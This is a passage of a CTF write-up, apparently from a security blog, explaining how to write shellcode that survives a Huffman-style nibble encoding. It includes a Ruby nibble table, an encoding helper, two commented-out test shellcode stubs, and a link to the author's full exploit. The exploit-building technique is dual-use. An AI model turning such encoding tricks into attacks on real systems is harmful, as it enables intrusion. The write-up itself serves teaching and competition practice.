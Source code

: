And not only do they each encode to 4 bits, every possible 4-bit value is there, too!

## Exploit

The exploit now is just a matter of...

1. Figuring out which nibbles encode to which bits
2. Writing those nibbles out as shellcode
3. Padding the shellcode till you have the same number of each nibble

That's all pretty straight forward! Check out [my full exploit](https://blogdata.skullsecurity.org/huffy-sploit.rb), or piece it together from the snippits below :)

First, create a table (I did this by hand):

```
<pre id="vimCodeElement">
<span class="Identifier">@@table</span> = {
  <span class="Special">"</span><span class="Constant">0000</span><span class="Special">"</span> => <span class="Constant">0x0</span>, <span class="Special">"</span><span class="Constant">0001</span><span class="Special">"</span> => <span class="Constant">0x1</span>, <span class="Special">"</span><span class="Constant">0011</span><span class="Special">"</span> => <span class="Constant">0x2</span>, <span class="Special">"</span><span class="Constant">0010</span><span class="Special">"</span> => <span class="Constant">0x3</span>,
  <span class="Special">"</span><span class="Constant">0110</span><span class="Special">"</span> => <span class="Constant">0x4</span>, <span class="Special">"</span><span class="Constant">0111</span><span class="Special">"</span> => <span class="Constant">0x5</span>, <span class="Special">"</span><span class="Constant">0101</span><span class="Special">"</span> => <span class="Constant">0x6</span>, <span class="Special">"</span><span class="Constant">0100</span><span class="Special">"</span> => <span class="Constant">0x7</span>,
  <span class="Special">"</span><span class="Constant">1100</span><span class="Special">"</span> => <span class="Constant">0x8</span>, <span class="Special">"</span><span class="Constant">1101</span><span class="Special">"</span> => <span class="Constant">0x9</span>, <span class="Special">"</span><span class="Constant">1111</span><span class="Special">"</span> => <span class="Constant">0xa</span>, <span class="Special">"</span><span class="Constant">1110</span><span class="Special">"</span> => <span class="Constant">0xb</span>,
  <span class="Special">"</span><span class="Constant">1010</span><span class="Special">"</span> => <span class="Constant">0xc</span>, <span class="Special">"</span><span class="Constant">1011</span><span class="Special">"</span> => <span class="Constant">0xd</span>, <span class="Special">"</span><span class="Constant">1001</span><span class="Special">"</span> => <span class="Constant">0xe</span>, <span class="Special">"</span><span class="Constant">1000</span><span class="Special">"</span> => <span class="Constant">0xf</span>,
}
```

Then encode the shellcode:

```

<span class="rubyDefine">def</span> <span class="Identifier">encode_nibble</span>(b)
  binary = b.to_s(<span class="Constant">2</span>).rjust(<span class="Constant">4</span>, <span class="Special">'</span><span class="Constant">0</span><span class="Special">'</span>)
  puts(<span class="Special">"</span><span class="Constant">Looking up %s... => %x</span><span class="Special">"</span> % [binary, <span class="Identifier">@@table</span>[binary]])
  <span class="Statement">return</span> <span class="Identifier">@@table</span>[binary]
<span class="rubyDefine">end</span>

<span class="Identifier">@@hist</span> = [ <span class="Constant">0</span>, <span class="Constant">0</span>, <span class="Constant">0</span>, <span class="Constant">0</span>, <span class="Constant">0</span>, <span class="Constant">0</span>, <span class="Constant">0</span>, <span class="Constant">0</span>, <span class="Constant">0</span>, <span class="Constant">0</span>, <span class="Constant">0</span>, <span class="Constant">0</span>, <span class="Constant">0</span>, <span class="Constant">0</span>, <span class="Constant">0</span>, <span class="Constant">0</span>, ]

<span class="Comment">#shellcode = "\xeb\xfe"</span>
<span class="Comment">#shellcode = "\xcd\x03"</span>
```